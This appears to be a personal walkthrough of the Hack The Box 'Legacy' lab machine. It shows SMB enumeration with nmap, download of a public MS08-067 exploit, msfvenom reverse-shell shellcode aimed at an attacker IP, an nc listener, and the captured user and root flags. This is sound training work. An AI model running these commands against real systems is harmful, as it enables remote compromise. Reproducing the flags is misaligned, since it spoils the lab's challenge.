 #Windows 

https://app.hackthebox.com/machines/2

![[Pasted image 20240716124312.png]]


Lets further enumerate using `enum4linux`
![[Pasted image 20240716132522.png]]
![[Pasted image 20240716132605.png]]


Check the SMB Shares
![[Pasted image 20240716133703.png]]



This looks suspiciously like Eternal Blue...
Check for NMAP scripts

```
ls /usr/share/nmap/scripts/ | grep smb | grep vuln
```
![[Pasted image 20240716134056.png]]

```
nmap -v -Pn -sCV -T4 -p139,445 --script smb-vuln* 10.10.10.4
```
![[Pasted image 20240716134305.png]]

**CVE-2008-4250https://www.xintra.org/labs**
https://www.exploit-db.com/exploits/7104

![[Pasted image 20240716134505.png]]
https://www.xintra.org/labs
**GitHub**
https://github.com/andyacer/ms08_067 - Updated and modified from original below: (We will usee original)


https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py
![[Pasted image 20240716135528.png]]



```
sudo wget https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
```
![[Pasted image 20240716135752.png]]

***
**READ EXPLOIT AND MODIFY**

![[Pasted image 20240716140029.png]]


Create a custom `msfvenom` payload for this application
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=1337 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -a x86 --platform windows -v shellcode
```

- `-p` - Payload - Reverse TCP
- `-b` - Characters to avoid
- `-f` - format 
- `-a` - Architecture
- `-v` - Rename shellcode

![[Pasted image 20240716140856.png]]


Modify Orginal exploit with new shellcode
![[Pasted image 20240716141049.png]]

***
**RLWRAP**

Before we continue, lets use `rlwrap` to improve our shell quality between Linux and Windows
![[Pasted image 20240716141405.png]]

```
sudo rlwrap nc -lvnp 1337
```
![[Pasted image 20240716141606.png]]



Usage
![[Pasted image 20240716142009.png]]

```
sudo python ms08-067.py 10.10.10.4 6 445
```


Run exploit
![[Pasted image 20240716141924.png]]
***

user.txt : e69af0e4f443de7e36876fda4ec7644f
![[Pasted image 20240716142418.png]]

root.txt : 993442d258b0e0ec917cae9e695d5713
![[Pasted image 20240716142324.png]]


***
***

This system level shell has a few limitations when it came to running `whoami`

![[Pasted image 20240716143402.png]]

Serve the `whoami.exe` via smb share from Linux
```
sudo smbserver.py a /usr/share/windows-binaries/
```
![[Pasted image 20240716143827.png]]

WINDOWS
```
\\[attacker_share]\[share_name]\[executable]
```
![[Pasted image 20240716143815.png]]

